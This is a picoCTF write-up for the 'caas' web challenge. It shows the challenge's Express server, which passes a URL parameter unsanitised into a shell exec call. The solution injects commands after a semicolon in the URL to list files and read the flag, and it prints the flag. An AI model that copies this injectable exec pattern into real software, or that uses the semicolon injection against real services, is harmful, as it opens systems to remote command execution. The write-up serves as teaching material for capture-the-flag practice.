



# Web - caas
## Writeup Author: kebabulon

---

### Task
Now presenting cowsay as a service

https://caas.mars.picoctf.net/



Attached files:
```
-- index.js
```

**index.js**:
```js
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

---

### Solution

This is a simple RCE.  
The message at the end of the url is appended to ```/usr/games/cowsay``` and executed as a bash script  
To break out of the message, we can just append ```;``` and whatever command we want:

```
https://caas.mars.picoctf.net/cowsay/hello; ls
```



```
https://caas.mars.picoctf.net/cowsay/hello; cat falg.txt
```



---

### Flag

```
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```
